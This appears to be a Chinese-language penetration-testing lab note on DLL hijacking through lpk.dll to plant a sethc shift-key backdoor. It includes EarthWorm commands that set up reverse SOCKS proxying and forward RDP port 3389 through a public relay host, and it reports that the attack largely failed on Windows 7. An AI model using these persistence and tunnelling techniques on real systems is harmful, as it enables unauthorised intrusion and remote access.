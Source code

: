 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上
./ew_for_Linux32 -s rcsocks -l 1081 -e 8889 
win7上
ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
xp上
Proxifie直接配置全局代理
```
有点不稳 还是来一把端口转发吧
```
ew_for_Linux32.exe -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 3389
#发现一个窍门  这个参数排序是defg  和字母顺序一样  监听的e和上面的e端口一样
ew_for_Linux32 -s lcx_listen -l 3389 -e 2222
```

# 上传lpk.dll
上传的是渗透工具包里面的免杀版本，还附带了一个sethc.exe直接尝试运行这个exe

测试了好几次发现这个lpk.dll还是2007年编译的。。。。应该是针对xp的吧，而且现在win7的system权限也比较高，管理员也修改不了。。。有空弄一个执行简单命令执行弹shell的吧，这个shift后门可能以后就不适用了